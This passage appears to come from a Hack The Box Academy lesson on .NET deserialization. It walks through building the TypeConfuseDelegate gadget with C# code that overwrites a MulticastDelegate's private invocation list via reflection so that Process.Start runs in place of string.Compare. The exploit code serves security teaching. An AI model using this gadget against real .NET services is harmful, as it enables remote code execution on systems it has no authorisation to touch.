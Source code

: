 Although `ComparisonComparer` is an internal class inside `Comparer`, which means it can not be instantiated by other classes than `Comparer`, it is exposed via the `Comparer.Create` method.

![image](https://academy.hackthebox.com/storage/modules/240/3/39.png)

So we have a way to create a `ComparisonComparer`, but our problem now is that `Comparison` expects a method that returns an `int`, and `Process.Start` returns a `Process` object.

This is where `MulticastDelegate` comes into play. To put it simply, a `MulticastDelegate` is just a list of `delegated` methods that are to be invoked one after another. Although we still can not delegate `Process.Start` as a `Comparison<T>` due to the return type, we can exploit a long-standing `.NET Framework` issue where type signatures are not always enforced, and overwrite an already delegated function in a `MulticastDelegate` instance with a method which returns a different type, in this case `Process.Start`.

So let's take a look at the beginning of the gadget code:

```csharp
// We delegate `string.Compare` as a new `Comparison<T>`
Delegate stringCompare = new Comparison<string>(string.Compare);

// We create a `MulticastDelegate` by chaining two `string.Compare` methods in a row
Comparison<string> multicastDelegate = (Comparison<string>) MulticastDelegate.Combine(stringCompare, stringCompare);

// We create a `ComparisonComparer` instance using `Comparer.Create` and pass the `MulticastDelegate` that we created as the `Comparison<T>` parameter to the constructor
IComparer<string> comparisonComparer = Comparer<string>.Create(multicastDelegate);

```

At this point, we have a `ComparisonComparer` instance which will invoke two `string.Compare` methods in a row when the `Compare` method is invoked. This is where the `"Type Confusion"` comes in. Inside `MulticastDelegate` is a private field called `_invocationList` which contains the delegated methods in the order they should be invoked.

![image](https://academy.hackthebox.com/storage/modules/240/3/40.png)

Since this is a private field, we can not update it directly, however, we can get around this by using a class called `FieldInfo`:

```csharp
// Get the `FieldInfo` for `_invocationList`, specifying it is a `Non-Public`, `Instance` variable
FieldInfo fi = typeof(MulticastDelegate).GetField("_invocationList", BindingFlags.NonPublic | BindingFlags.Instance);

// Get the `invocation list` from our `MulticastDelegate`
object[] invoke_list = multicastDelegate.GetInvocationList();

// Overwrite the second delegated function (`string.Compare`) with `Process.Start`
invoke_list[1] = new Func<string, string, Process>(Process.Start);
fi.SetValue(multicastDelegate, invoke_list);

```
